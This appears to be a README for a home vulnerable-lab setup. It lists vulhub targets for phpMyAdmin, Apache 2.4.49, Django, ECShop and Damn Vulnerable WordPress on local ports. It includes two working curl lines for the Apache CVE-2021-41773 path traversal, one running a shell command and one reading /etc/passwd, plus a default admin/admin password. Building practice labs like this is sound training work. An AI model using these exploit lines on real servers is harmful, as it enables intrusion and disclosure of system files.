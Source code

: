 1. Hidden dir, password attack, **tcp 8511**: [cve-2018-12613 authenticated RCE in phpmyadmin 4.8.1](https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613). [EDB-ID 45020](https://www.exploit-db.com/exploits/45020)

```
Check the config file. See error below:

Failed to read configuration file!

This usually means there is a syntax error in it, please check any errors shown below.
```

2. Hidden dir, Apache 2.4.49 vuln, **tcp 8512**: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773). [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
3. Hidden dir, SQLi, **tcp 8513**: [CVE-2019-14234 django SQLi](https://github.com/vulhub/vulhub/tree/master/django/CVE-2019-14234). 
```
Need to switch this over, update docker-compose and the repository.
```

5. WP: [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). Multiple CVEs.
```
Need to add database "wordpress" to wordpress_mysql
Need to update db host from "mysql" to "wordpress_mysql" in wp-config.php
Manually activate plugins after finishing installation
```
- Weak password (admin/admin)
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)
5. SQLi ECShop 4.x, **tcp 8510**: [ECShop 4.x collection_list SQL injection](https://github.com/vulhub/vulhub/tree/master/ecshop/collection_list-sqli)
